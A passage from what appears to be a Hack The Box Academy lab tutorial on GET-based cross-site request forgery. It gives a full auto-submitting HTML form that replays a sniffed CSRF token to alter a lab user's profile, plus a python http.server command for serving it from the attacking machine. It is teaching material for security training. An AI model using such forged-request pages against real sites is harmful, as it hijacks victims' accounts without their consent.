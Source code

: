 ![image](https://academy.hackthebox.com/storage/modules/153/31.png)

The CSRF token is included in the GET request.

Let us simulate an attacker on the local network that sniffed the abovementioned request and wants to deface Julie Rogers' profile through a CSRF attack. Of course, they could have just performed a session hijacking attack using the sniffed session cookie.

First, create and serve the below HTML page. Save it as `notmalicious_get.html`

```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/[email protected]" method="GET">
      <input type="hidden" name="email" value="[email protected]" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>

```

Notice that the CSRF token's value above is the same as the CSRF token's value in the captured/"sniffed" request.

If you are wondering how we came up with the above form based on the intercepted GET request, please study the following resource [Sending form data](https://developer.mozilla.org/en-US/docs/Learn/Forms/Sending_and_retrieving_form_data)

You can serve the page above from your attacking machine as follows.

```shell
python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...

```

While still logged in as Julie Rogers, open a new tab and visit the page you are serving from your attacking machine `http://<VPN/TUN Adapter IP>:1337/notmalicious_get.html`. You will notice that Julie Rogers' profile details will change to the ones we specified in the HTML page you are serving.

![image](https://academy.hackthebox.com/storage/modules/153/34.png)

In the next section, we will attack an application submitting the CSRF token via POST without having to reside in the local network.


# Cross-Site Request Forgery (POST-based)
